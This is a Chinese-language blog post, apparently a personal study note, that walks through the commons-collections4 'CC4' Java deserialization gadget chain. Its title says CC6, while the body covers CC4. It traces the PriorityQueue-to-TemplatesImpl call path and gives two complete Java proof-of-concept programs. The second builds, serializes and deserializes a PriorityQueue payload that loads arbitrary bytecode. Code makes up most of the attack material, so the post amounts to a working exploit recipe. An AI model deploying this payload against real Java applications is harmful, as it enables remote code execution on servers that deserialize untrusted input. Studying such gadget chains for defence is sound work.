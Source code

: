 ```yaml
---
layout: post
title: CC链-CC6
subtitle: Let's start learning!
tags: [CC链]
author: Sine
---
```


# CC4

CC4是针对commons-collections4版本的攻击链

PriorityQueue.readObject()->PriorityQueue.heapify()->PriorityQueue.siftDown()->PriorityQueue.siftDownUsingComparator()->TransformingComparator.compare()->ChainedTransformer.transform()->ConstantTransformer.transform()->InstantiateTransformer.transform()->TrAXFilter.TrAXFilter()->TemplatesImpl.newTransformer()->TemplatesImpl.getTransletInstance()->TemplatesImpl.defineTransletClasses()->ClassLoader.defineClass()->newInstance()

我们直接来看TransformingComparator中的compare方法调用了transform方法

![image-20250213213529995](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213530024.png)

this.transform在构造函数里被赋值

![image-20250213213634040](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213634095.png)

TransformingComparator.compare在PriorityQueue.siftDownUsingComparator中被调用

![image-20250213213710644](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213710678.png)

comparator在构造函数里被赋值，this.comparator = comparator

![image-20250218203046661](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218203046812.png)

siftDownUsingComparator被siftDown调用

![image-20250213213811111](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213811146.png)

siftDown被heapify调用

![image-20250213213844021](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213844085.png)

heapify在本类的readObject方法中调用

![image-20250213213906874](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213906955.png)

前半部分可采用CC3，初始化TransformingComparator，传入chainedTransformer赋值给this.transform

再把TransformingComparator传入PriorityQueue进行初始化，PriorityQueue的成员变量this.comparator即为TransformingComparator，再调用TransformingComparator.compare方法

然后在compare方法里会调用chainedTransformer.transform方法

在heapify中，要满足i = (size >>> 1) - 1>= 0才能调用siftDown方法，所以要使size>2

![image-20250213220033214](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213220033254.png)

所以要往priorityQueue中add至少两个对象

此时，还未进行序列化反序列化，但也能够执行

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


public class CC4Test {

    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException {

        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"123");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte [] code = Files.readAllBytes(Paths.get("/Users/sine/Desktop/code/Java/untitled1/target/classes/org/example/Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates,codes);
        Field _tfactoryField = templatesClass.getDeclaredField("_tfactory");
        _tfactoryField.setAccessible(true);
        _tfactoryField.set(templates,new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
    }

}
```

![image-20250218212120658](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218212120705.png)

priorityQueue.add方法也会调用到siftUpUsingComparator()->compare，所以可以先在transformingComparator初始化时传入一个无用的对象赋值给this.transform，等到add结束后，再修改transformingComparator成员变量transform的值

```JAVA
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


public class CC4Test {

    public static void main(String[] args) throws Exception {

        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "123");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("/Users/sine/Desktop/code/Java/untitled1/target/classes/org/example/Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field _tfactoryField = templatesClass.getDeclaredField("_tfactory");
        _tfactoryField.setAccessible(true);
        _tfactoryField.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Class transformingComparatorClass = transformingComparator.getClass();
        Field transformField = transformingComparatorClass.getDeclaredField("transformer");
        transformField.setAccessible(true);
        transformField.set(transformingComparator, chainedTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
    }
        public static void serialize(Object obj) throws Exception {
            ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
            oos.writeObject(obj);
        }

        public static Object unserialize(String Filename) throws Exception {
            ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
            Object obj = ois.readObject();
            return obj;
        }


    }
```

![image-20250218212155226](/Users/sine/Library/Application Support/typora-user-images/image-20250218212155226.png)

# 
